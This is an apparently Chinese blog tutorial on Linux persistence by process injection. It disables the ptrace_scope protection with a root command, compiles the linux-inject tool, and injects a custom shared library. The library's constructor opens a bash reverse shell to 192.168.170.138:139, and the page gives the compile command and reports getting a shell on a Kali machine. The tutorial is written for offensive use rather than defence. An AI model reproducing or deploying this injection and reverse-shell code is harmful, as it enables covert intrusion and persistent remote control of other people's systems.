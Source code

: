 **说明：**

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数**CreateRemoteThread()**。在许多Linux发行版中，内核的默认配置文件\*\*/proc/sys/kernel/yama/ptrace\_scope**限制了一个进程除了**fork()\*\*派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

    echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203336303.png%23pic_center)-
在Github上已经有了关于进程注入的实现代码：

    https://github.com/gaffe23/linux-inject
    
        

下载后进入项目目录，执行：make x86\_64 即可编译64位的linux-inject。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100620335785.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
确认编译是否正常：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203409686.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。 接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。

    #include <stdio.h>
    #include <unistd.h>
    #include <dlfcn.h>
    #include <stdlib.h>
    
    
    void shell()
    {
    	printf("I just got loaded\n");
        system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
       
    }
    
    
    __attribute__((constructor))
    void loadMsg()
    {
       shell();
    }
    
        

通过如下命令编译so文件：

    clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203447547.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203455152.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在Kali Linux这边获得了bash shell：
